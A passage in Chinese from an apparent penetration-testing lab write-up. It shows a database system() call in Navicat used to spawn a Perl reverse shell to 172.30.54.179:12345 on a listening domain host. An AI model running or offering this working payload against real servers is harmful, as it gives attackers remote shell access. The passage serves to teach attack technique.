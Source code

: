 所以我们这里调用相关命令

[![](assets/1706771111-17e2a47ce788f432b1078004dc725e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129174209-abe44d98-be8a-1.png)

接下来借助命令执行实现反弹 shell

### 反弹 Shell

这里反弹到我们的域用户二上，因为他和域用户三是在同一网段下的，我们先监听下它的某个端口。

然后在 Navicat 上执行指令如下

```plain
select system('perl -e \'use Socket;$i="172.30.54.179";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');
```

[![](assets/1706771111-1fff52b74c0e34a75aed1dea5a116042.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129174217-b0a91c5a-be8a-1.png)
